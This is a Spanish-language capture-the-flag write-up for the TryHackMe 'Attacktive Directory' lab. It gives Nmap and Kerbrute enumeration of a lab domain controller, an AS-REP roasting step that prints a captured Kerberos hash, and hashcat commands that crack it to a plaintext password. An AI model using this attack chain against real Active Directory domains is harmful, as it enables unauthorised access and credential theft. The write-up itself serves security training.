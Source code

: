 # Sala virtual Attacktive Directory
El 99% de las redes corporativas funcionan con AD. Pero, ¿Puedes explotar un Domain Controller vulnerable?

## Conceptos previos
#### ¿Qué es Impacket?

Impacket es una colección de clases de Python para trabajar con protocolos de red. Impacket se centra en proporcionar acceso programático de bajo nivel a los paquetes y, para algunos protocolos (por ejemplo, SMB1-3 y MSRPC), la implementación del protocolo en sí.
## Programas necesarios

### Impacket
#### Instalación

Ejecutar los siguientes comandos:
~~~
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
sudo cd /opt/impacket/
sudo pip3 install .
sudo python3 setup.py install
~~~

### Kerbrute
#### Instalación
Ejecutar los siguientes comandos:
~~~
sudo git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build .
~~~

# Comenzamos!!!
Para mí la IP de la máquina virtual que esta en mi red es 10.10.35.36. A ustedes les puede dar una IP distinta así que recuerde cambiarla al momento de realizar los pasos.
## 1. Fase de Descubrimiento
Verificamos si tenemos traza ICMP con la máquina virtual con el siguiente comando.

    ping -c 1 10.10.35.36

![img1](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img1.png)

Si podemos enviar paquetes además como el ttl es 127 podemos decir que se trata de una máquina Windows.

Para un escano rapido y centrado en el Active Directory podemos usar la herramienta **enum4linux**.

![img3](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img3.png)

Para un escaneo más exhaustivo utilizaremos la herramienta **Nmap**.

    nmap -p- --open -T5 -v -n 10.10.35.36

![img2](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img2.png)

Luego lanzaremos una serie de scrips básicos de enumeración sobre los puertos abiertos con **Nmap**.

    nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49667,49669,49672,49675,49676,49679,49684,49696 10.10.35.36

~~~
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 16:35 -05
Nmap scan report for 10.10.35.36
Host is up (0.19s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2021-04-20 21:35:55Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-04-20T21:36:47+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2021-04-19T19:58:44
|_Not valid after:  2021-10-19T19:58:44
|_ssl-date: 2021-04-20T21:36:56+00:00; 0s from scanner time.
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49667/tcp closed unknown
49669/tcp open   msrpc         Microsoft Windows RPC
49672/tcp open   msrpc         Microsoft Windows RPC
49675/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open   msrpc         Microsoft Windows RPC
49679/tcp open   msrpc         Microsoft Windows RPC
49684/tcp closed unknown
49696/tcp open   msrpc         Microsoft Windows RPC
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-04-20T21:36:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.70 seconds
~~~

Nos fijamos en el puerto 3389 que nos muestra el NetBIOS_Domain_Name y el TLD.

Ahora con la [lista de usuarios](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) potenciales del DC que nos dio la pagina y la herramienta **Kerbrute** podemos enumerar los usarios validos del Dominio.

![img4](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img4.png)

Para ello ejecutaremos el siguiente comando dentro de la carpeta de Kerbrute.

    ./kerbrute userenum --dc 10.10.35.36 -d spookysec.local userlist.txt

![img6](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img6.png)

Como atacantes de la lista de usuarios validos nos llaman la atención dos usuarios: svc-admin y backup

Genial! Ahora que conocemos que usuarios son validos podemos usar la herramienta **GetNPUsers.py** para saber que usuarios no requieren de autenticacion previa. La autenticación previa es el primer paso en la autenticación Kerberos y está diseñada para evitar ataques de adivinación de contraseñas por fuerza bruta.

![img7](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img7.png)

El usuario svc-admin es ASReproastable ya que no tiene autenticacion previa. Ademas nos devolvio un hash al final.

    $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:20d39c6093746fe66f77e1c216eebd50$046a49cb21dd0d99a1f4a120e33899b1120692b15d573315e3f280b3322990a46825b971297a0a9c886a0789016b169a39b6a5490282bc62eace54a2b0ca68d9c6fa203de6c7fbc918d2ecca015df55c11e3520902b6a95d9e19291094604a4d114e64ce7b7bc1ba4af85522753732843876dbc86cef2693f597c2e8c6ced716b6046f9748f926d344223d41324aace0085154b8a6380af0f99868edd71c4bd1bce4eb4b7bb3e88ff242725486b396c354ec8af82fe51dd056a72c4f2c6bce9060d69b66b90396a523ee02f8ca1fee5d0a5e32f3422f75c80c48a4b6ff90d8bb96fff40d59d03ddb76536aeb1d501e76692a

## 2. Fase de Ataque

Haciendo uso de la herramienta **hashcat** vamos a crackear el hash que obtuvimos pero antes debemos saber que tipo de hash es para ello hashcat nos da varios ejemplos con la opción --example-hashes.

    hashcat --example-hashes | grep "krb5asr" -B 3

![img8](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img8.png)

Ahora que sabemos que es un hash de tipo Kerberos 5 AS-REP etype 23 modo 18200 ya podremos romperlo con hashcat usando la [lista de contraseñas](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) que nos da la pagina.

    hashcat -m 18200 -a 0 hash passwordlist.txt

Donde -m indica el modo, con -a indicamos el modo de ataque, el hash que mostramos anteriormente esta en un archivo llamado hash y passwordlist.txt es el archivo que contiene todas las contraseñas potenciales que nos dio la página.

Para mostrar el resultado usaremos el comando:

    hashcat -m 18200 -a 0 hash passwordlist.txt --show


![img9](/home/hiteek/Github/TryHackMe/AttacktiveDirectory/img/img9.png)

La contraseña del usuario svc-admin es management2005
